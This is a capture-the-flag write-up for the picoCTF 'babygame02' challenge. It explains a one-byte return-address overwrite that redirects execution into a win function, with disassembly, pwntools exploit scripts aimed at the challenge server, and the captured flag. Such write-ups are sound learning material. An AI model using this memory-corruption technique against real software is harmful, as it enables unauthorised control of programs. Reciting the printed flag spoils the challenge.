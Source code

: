 # babygame02
Points: 200

Go read the introduction of babygame01 because I do not want to
repeat myself. `babygame02` is the exact same as `babygame01` except
for a few things:

1. local_aa4 does not exist anyore
2. `main` no longer calls `win` at all

Given these changes, we need to somehow jump into `win` and leak the flag.

The first attack that I tried was overwrites the return address of `main`
to `win`, but that requires a 32-bit write while we can only perform an
8-bit write.

After this I was stuck for a while trying to determine how to jump into
`win` with a single byte overwrite. I finally realizes that if the callsite
of `move_player` is sufficiently close to `win`, such that only the lowest
byte is different between the two addresses, it would be possible to
redirect `move_player` to `win`.

`move_player` callsite:
<br>**NOTE**: the address that is pushed onto the stack is the address of
`add esp, 0x10`, not `call move_player`, otherwise returning from a function
would cause an infinite loop :<
```c
        08049704 e8 6b fd        CALL       move_player                                      undefined move_player(undefined4
                 ff ff
        08049709 83 c4 10        ADD        ESP,0x10
```
`win` function:
```
        0804975d 55              PUSH       EBP
        0804975e 89 e5           MOV        EBP,ESP
        08049760 53              PUSH       EBX
        08049761 83 ec 44        SUB        ESP,0x44
        08049764 e8 d7 f9        CALL       __x86.get_pc_thunk.bx                            undefined __x86.get_pc_thunk.bx()
                 ff ff
        08049769 81 c3 97        ADD        EBX,0x2897
                 28 00 00
        0804976f 90              NOP
```

We can see that the return address that gets pushed onto the stack and
the address of the `win` function only differ by their lowest byte, which
means we can set up the player position such that when `move_player` is
called we overwrite the return address to point to `win` instead.

```python
from pwn import *

port = [insert port here]
io = remote("saturn.picoctf.net", port)

io.send(b"l" + b"\x5d")
io.send(b"w" * 4)
io.send(b"d" * (51 - 4))
io.sendline(b"w")

io.interactive()
```

Except this does not work on the server, it does not output the flag.
What is going on? Fortunately I remembered a hint I saw in the picoCTF chat,
and all you had to do was jmp over the function prolouge into the nops instead.

The culprit for the crash if you jmped into the prolouge was probably stack
alignment and sse instructions in the glibc.
```python
from pwn import *

port = [insert port here]
io = remote("saturn.picoctf.net", port)

io.send(b"l" + b"\x78")
io.send(b"w" * 4)
io.send(b"d" * (51 - 4))
io.sendline(b"w")

io.interactive()
```

# Flag: `picoCTF{gamer_jump1ng_4r0unD_5ae8925f}`